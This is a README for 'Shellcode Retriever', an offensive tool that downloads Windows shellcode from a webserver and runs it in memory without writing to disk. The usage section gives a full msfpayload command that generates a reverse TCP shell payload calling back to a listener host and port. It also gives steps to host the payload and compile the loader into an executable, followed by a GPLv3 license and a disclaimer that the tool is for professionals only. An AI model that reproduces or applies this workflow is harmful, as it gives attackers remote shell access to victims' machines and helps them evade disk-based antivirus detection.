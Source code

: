 ##Shellcode Retreiver
Downloads win32 shellcode from webservers and executes the shellcode without the shellcode touching disk (using the following method: http://www.debasish.in/2012_04_01_archive.html)

---

For use by IT professionals and researchers.

Usage: 
Create shellcode using the following msfpayload command:

msfpayload windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=8080 EXITFUNC=thread R > test.txt

Notice the exit function, very important if you want the process to run and beacon out based on timeouts in the source code.

Upload the shellcode to your webserver.

Compile the python code to an executeable by using pyinstaller.
---

##License:   GPLv3


    Shellcode Retriever

    Author Joshua Pitts the.midnite.runr 'at' gmail <d ot > com
    
    Copyright (C) 2013, Joshua Pitts

    License:   GPLv3

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    See <http://www.gnu.org/licenses/> for a copy of the GNU General
    Public License

    This program is to be used for only legal activities by IT security
    professionals and researchers. Author not responsible for malicious
    uses.